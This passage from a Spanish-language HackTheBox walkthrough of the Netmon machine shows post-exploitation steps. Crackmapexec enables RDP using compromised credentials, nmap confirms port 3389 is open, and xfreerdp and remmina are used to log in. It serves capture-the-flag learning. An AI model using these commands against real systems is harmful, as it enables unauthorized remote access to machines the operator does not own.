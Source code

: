 Listo, ganamos acceso utilizando la herramienta **psexec.py**.

<br>

<h3 id="rdp">Accediendo a la Máquina con xfreerdp - Remmina</h3>

Para este caso, vamos a primero levantar el **servicio RDP** utilizando **Crackmapexec**, para esto tambien puedes usar el usuario administrador y su hash o tu usuario, queda a tu elección:
```bash
crackmapexec smb 10.10.10.152 -u 'BerserkP' -p 'B3rs3rkP123$!' -M rdp -o action=enable
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\BerserkP:B3rs3rkP123$! (Pwn3d!)
RDP         10.10.10.152    445    NETMON           [+] RDP enabled successfully
```

E igual, podemos comprobar con **nmap**, que este servicio ya esta operando en la máquina:
```bash
nmap -p 3389 --open -T5 -vvv -n -Pn 10.10.10.152
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) CST
Initiating SYN Stealth Scan at 23:22
Scanning 10.10.10.152 [1 port]
Discovered open port 3389/tcp on 10.10.10.152
Completed SYN Stealth Scan at 23:22, 0.15s elapsed (1 total ports)
Nmap scan report for 10.10.10.152
Host is up, received user-set (0.066s latency).

PORT     STATE SERVICE       REASON
3389/tcp open  ms-wbt-server syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)
```

Ahora, usemos la herramienta **xfreerdp** para conectarnos a la consola:
```bash
xfreerdp /u:BerserkP /p:B3rs3rkP123$! /v:10.10.10.152:3389
```
No nos deja conectarnos, es posible que sea por como esta configurada la máquina en HTB, pero usemos otra herramienta muy similar a **xfreerdp** que se llama **remmina**, vamos a instalarla primero:
```bash
apt install remmina
```

Y vamos a ejecutarla:
```bash
remmina
```

Observa que nos pide una IP a la cual conectarnos, usemos la de la máquina:

<p align="center">